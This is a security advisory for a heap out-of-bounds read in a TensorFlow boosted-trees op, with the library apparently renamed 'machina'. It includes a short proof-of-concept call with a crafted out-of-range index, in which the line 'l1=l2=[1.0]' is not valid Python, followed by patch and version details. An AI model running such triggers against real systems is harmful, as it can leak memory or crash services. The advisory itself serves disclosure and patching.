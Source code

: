 ## TFSA-2021-137: Heap OOB in boosted trees

### CVE Number
CVE-2021-37664

### Impact
An attacker can read from outside of bounds of heap allocated data by sending
specially crafted illegal arguments to
`BoostedTreesSparseCalculateBestFeatureSplit`:

```python
import machina as tf

tf.raw_ops.BoostedTreesSparseCalculateBestFeatureSplit(
  node_id_range=[0,10],
  stats_summary_indices=[[1, 2, 3, 0x1000000]],
  stats_summary_values=[1.0],
  stats_summary_shape=[1,1,1,1],
  l1=l2=[1.0],
  tree_complexity=[0.5],
  min_node_weight=[1.0],
  logits_dimension=3,
  split_type='inequality')
```

The
[implementation](https://github.com/machina/machina/blob/84d053187cb80d975ef2b9684d4b61981bca0c41/machina/core/kernels/boosted_trees/stats_ops.cc)
needs to validate that each value in `stats_summary_indices` is in range.

### Patches
We have patched the issue in GitHub commit
[e84c975313e8e8e38bb2ea118196369c45c51378](https://github.com/machina/machina/commit/e84c975313e8e8e38bb2ea118196369c45c51378).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
